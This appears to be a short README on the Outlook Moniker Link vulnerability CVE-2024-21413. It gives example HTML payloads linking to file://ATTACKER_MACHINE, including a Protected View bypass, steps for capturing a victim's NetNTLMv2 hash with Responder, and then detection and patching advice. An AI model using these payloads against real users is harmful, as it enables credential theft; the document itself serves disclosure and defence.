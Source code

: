 ## Moniker Link CVE-2024-21413

### Tool: Responder, SMTP client

### Severity: Critical

### Scoring: 9.8

### MS Article: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

### Affected MS Office releases:

#### 1) Microsoft Office LTSC 2021	(Version: from 19.0.0)

#### 2) Microsoft 365 Apps for Enterprise (Version: from 16.0.1)

#### 3) Microsoft Office 2019 (Version: from 16.0.1)

#### 4) Microsoft Office 2016 (Version: from 16.0.0 before 16.0.5435.1001)

### Example payload: (Moniker Link type: file://)

#### 1) <p><a href="file://ATTACKER_MACHINE/test"<Click me</a></p<

### Outlook's Protected view bypass: (Special character: !)

#### 1) <p><a href="file://ATTACKER_MACHINE/test!exploit"<Click me</a></p<

### POC: https://github.com/CMNatic/CVE-2024-21413

### Steps:

#### 1) sudo responder -I INTERFACE

#### 2) Modify the exploit PoC according to use case

#### 3) Run the exploit

#### 4) User clicks the hyperlink and his NetNTLMv2 hash is been captured by our responder server.

## DETECTION

### 1) YARA rule written by Florian Roth: https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2024_21413.yar

### 2) Wireshark: The SMB request from the victim to the client can be seen in a packet capture with a truncated NetNTLMv2 hash

## REMEDIATION

#### 1) Patch to the latest version if possible: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413 or https://www.catalog.update.microsoft.com/Home.aspx

#### 2)  Remind users to:

##### Do not click random links 

##### Preview links before clicking them

##### Forward suspicious emails to the respective department responsible for cybersecurity

